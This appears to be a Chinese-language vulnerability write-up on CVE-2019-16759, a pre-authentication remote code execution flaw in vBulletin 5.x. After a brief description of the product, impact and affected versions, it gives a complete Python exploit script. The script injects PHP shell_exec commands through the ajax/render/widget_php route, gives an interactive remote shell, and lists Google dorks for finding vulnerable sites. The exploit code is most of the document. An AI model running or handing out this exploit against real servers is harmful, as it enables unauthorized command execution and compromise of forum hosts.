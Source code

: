 ## 前言  

vBulletin 是一个商用的论坛程序，在全球拥有数万用户且增长速度很快。该论坛采用PHP Web语言及MySQL数据库的方式进行架构。《财富》 500强和Alexa排名前100万的公司网站大部分都在使用的一款互联网论坛程序。

## 漏洞简介  

CVE-2019-16759 vBulletin 5.x 0day pre-auth RCE exploit ，无需预认证即可执行远程代码执行漏洞 

## 漏洞危害  

不需要在目标论坛上注册帐户,即可在运行vBulletin安装的服务器上执行shell命令 

## 影响范围  

### 产品  

> vBulletin 5.x 

### 版本  

> vBulletin v5（5.0.0到5.5.4）版本  

### 组件  

> vBulletin  

## 漏洞复现  

## POC

```python
#!/usr/bin/python
#
# vBulletin 5.x 0day pre-auth RCE exploit
# 
# This should work on all versions from 5.0.0 till 5.5.4
#
# Google Dorks:
# - site:*.vbulletin.net
# - "Powered by vBulletin Version 5.5.4"

import requests
import sys

if len(sys.argv) != 2:
    sys.exit("Usage: %s <URL to vBulletin>" % sys.argv[0])

proxies ={
     "http":"http://127.0.0.1:8080/"
}
params = {"routestring":"ajax/render/widget_php"}

while True:
     try:
          cmd = raw_input(">>>Shell= ")
          params["widgetConfig[code]"] = "echo shell_exec('"+cmd+"');echo md5('vBulletin'); exit;"
          r = requests.post(url = sys.argv[1], data = params, proxies=proxies)
          if r.status_code == 200 or r.status_code ==403 and 'be4ea51d962be8308a0099ae1eb3ec63' in r.text:
               print
               print r.text.split('be4ea51d962be8308a0099ae1eb3ec63')[0]
          else:
               sys.exit("Exploit failed! :(")
     except KeyboardInterrupt:
          sys.exit("\nClosing shell...")
     except Exception, e:
          sys.exit(str(e))

```
### 复现截图  

![vBulletin](img/41.png)
